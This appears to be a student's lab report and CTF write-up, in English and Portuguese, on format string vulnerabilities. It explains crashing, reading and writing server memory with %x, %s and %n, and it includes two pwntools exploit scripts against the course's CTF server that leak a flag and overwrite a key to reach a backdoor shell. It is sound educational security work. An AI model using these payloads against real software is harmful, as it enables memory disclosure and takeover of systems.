

# Trabalho realizado na Semana #6

## Task 1 : Crashing the Program

We were able to crash the program by sending a "%n" modifier to the server.
This will command the printf to print the number of printed bytes to a specified variable. Since there is no address being passed in the printf() call, the program will search for an address on the stack. The variable on top of the stack, at the moment, is the function's frame pointer, which will be overriden and the program will crash, unable to return.

## Task 2 : Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

We needed 64 "%x" format specifiers to be able to print out our input data. We used the hex number 0xABCDEF12 to be able to tell.
These specifiers will iterate the stack, printing the values it finds. This means we can access our own bytes after 63 hex numbers (4 bytes each), which can be used for a possible attack.


### Task 2.B: 

We managed to print the server's secret message by putting its address on the stack (by inserting it in the printf call), printing the calculated offset in the last task (63 hex numbers of 4 bytes) and, finally, printing from the desired address using "%s".


## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value

Instead of using the secret message address, this time the goal was to change the value of the target, so we used it's address and, by using "%n", we wrote the number of characters already written in printf to the variable.


### Task 3.B: Change the value to 0x5000

We want to write to the target variable by using "%.nd" and "%n", so we had to check for the variable address again. We noticed that, after writting "%x" 62 times, we could read the value on that address. Since we want to write the value 0x5000 to it, we must write that amount of characters to the printf and, after this, write to the variable using "%n".




## CTF - Desafio 1

O primeiro desafio de CTF desta semana pode ser resolvido obtendo o endereço da variável global *flag* (visto não haver proteção PIE) e usar um exploit *template string* para ler o valor desta variável. Assim sendo, foi feito o seguinte:
- Usar *gdb* para descobrir o valor da variável global, usando `p &flag`
- Converter o endereço obtido para bytes, com order em *little*
- Concatenar estes bytes com "%s", para conseguir ler o endereço guardado na stack (o mesmo que foi retirado do *gdb*).
- Enviar o resultado ao servidor e obter a flag. Isto resulta porque o printf vai ler o endereço que colocamos na stack, que será o endereço da variável global flag.

Em baixo, encontra-se o código do exploit:
```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")

tmp = 0x804C060
bytes = (tmp).to_bytes(4, byteorder='little')

var = bytes + b"%s"
p.sendline(var)
p.interactive()

```

## CTF - Desafio 2

O segundo desafio também se baseia em descobrir o endereço de uma variável global e usar um exploit *template string*, mas desta vez com o objetivo de escrever para esta variável. Assim sendo, fez-se o seguinte:
- Usar *gdb* para descobrir o valor da variável global, usando `p &key`
- Converter o endereço obtido para bytes, com order em *little*
- Enviar para o servidor, em bytes, a seguinte sequência: "%.48867d" + bytes + "%x%n". Isto vai escrever 0xbeef carateres para a saída padrão e escrever esse número na variável com o endereço que descobrimos. O "%x" é utilizado para limpar a stack, para que o nosso endereço alvo seja utilizado pelo "%n" (para descobrir quantos "%x" tínhamos de usar, demos print até vermos o endereço utilizado).
- Sendo que a variável *key* já toma 0xbeef como valor, o programa dá-nos acesso a uma shell (backdoor), sendo que a flag pode ser lida com o comando `cat flag.txt`.

Em baixo, encontra-se o código do exploit:
```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"...")

tmp = 0x804C034
bytes = (tmp).to_bytes(4, byteorder='little')

var = b"%.48867d" + bytes + b"%x" + b"%n"

p.sendline(var)
p.interactive()

```
